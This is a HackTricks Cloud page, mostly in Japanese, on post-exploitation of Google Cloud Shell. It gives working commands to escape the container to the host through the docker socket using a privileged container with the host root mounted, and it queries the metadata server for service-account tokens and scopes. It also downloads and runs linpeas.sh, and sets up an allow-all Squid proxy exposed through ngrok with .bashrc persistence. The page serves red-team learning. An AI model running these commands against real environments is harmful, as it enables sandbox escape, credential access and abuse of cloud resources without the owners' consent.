 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Cloud Shellに関する詳細情報は、以下を確認してください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Google Cloud Shellはコンテナ内で実行されているため、次の操作を行うことで**ホストに簡単にエスケープ**できます:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

これはGoogleによって脆弱性とは見なされていませんが、その環境で何が起こっているかのより広い視野を提供します。

さらに、ホストからサービスアカウントトークンを見つけることができることに注意してください：

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

次のスコープを使用して:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

LinPEASを使用してメタデータを列挙します:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf_my_gcp_permissions)をService Accountのトークンで使用した後、**権限は発見されませんでした**...

### プロキシとして使用する

Google Cloud Shellインスタンスをプロキシとして使用したい場合は、以下のコマンドを実行する必要があります（または.bashrcファイルに挿入します）：
```bash
sudo apt install -y squid
```
ただお知らせしますが、SquidはHTTPプロキシサーバーです。次の設定で**squid.conf**ファイルを作成してください：
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf**ファイルを**/etc/squid**にコピーします。
```bash
sudo cp squid.conf /etc/squid
```
最後に、squidサービスを実行します：
```bash
sudo service squid start
```
ngrokを使用してプロキシを外部から利用可能にします：
```bash
./ngrok tcp 3128
```
tcp:// URLをコピーした後、ブラウザからプロキシを実行したい場合は、tcp://部分とポートを削除し、ポートをブラウザのプロキシ設定のポートフィールドに入力することをお勧めします（squidはHTTPプロキシサーバーです）。

起動時のより良い使用のために、.bashrcファイルには以下の行を含めるべきです：
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
The instructions were copied from [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). このページで、Cloud Shellであらゆる種類のソフトウェア（データベースやWindowsさえも）を実行するための他のクレイジーなアイデアを確認してください。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

